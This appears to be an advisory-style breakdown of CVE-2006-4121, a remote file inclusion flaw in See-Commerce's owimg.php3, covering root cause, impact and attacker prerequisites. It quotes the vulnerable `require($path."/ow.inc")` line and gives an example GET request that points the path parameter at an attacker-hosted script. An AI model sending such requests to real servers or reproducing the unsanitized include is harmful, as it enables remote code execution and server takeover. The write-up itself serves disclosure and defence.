 Based on the provided content, here's a breakdown of the vulnerability:

**CVE ID:** CVE-2006-4121

**Root Cause of Vulnerability:**
The vulnerability stems from a remote file inclusion flaw in the `owimg.php3` script of See-Commerce version 1.0.625. The script uses a `require()` function to include a file specified by the `path` parameter without proper sanitization, leading to arbitrary code execution. Specifically, the line `require($path."/ow.inc");` is vulnerable.

**Weaknesses/Vulnerabilities Present:**
- **Remote File Inclusion (RFI):** The primary vulnerability is the ability to include a remote file via the `path` parameter, which allows an attacker to inject malicious code.
- **Lack of Input Sanitization:** The `path` parameter is not validated or sanitized, allowing arbitrary file paths (including URLs) to be included in the `require()` statement.

**Impact of Exploitation:**
- **Arbitrary Code Execution:** An attacker can execute arbitrary PHP code on the vulnerable server by including a malicious script hosted remotely. This can lead to complete compromise of the web application and potentially the server itself.
- **Data Breaches:** If the attacker gains code execution, they can access sensitive data stored on the server.
- **Malware Distribution:** The attacker can use the server as a platform to host and distribute malware.
- **Website Defacement:** The attacker can modify the website content.

**Attack Vectors:**
- **HTTP GET Request:** The attack vector is a specially crafted HTTP GET request to `owimg.php3` with a malicious URL provided in the `path` parameter.
  Example: `http://[site]/[see-commerce directory]/owimg.php3?path=[evil script]`

**Required Attacker Capabilities/Position:**
- **Network Access:** The attacker needs network access to the vulnerable web server.
- **Knowledge of the Vulnerable Application:** The attacker needs to know about the See-Commerce application and the vulnerable script (`owimg.php3`).
- **Ability to host a malicious script:** The attacker must have access to a server where they can host the malicious PHP script to be included remotely.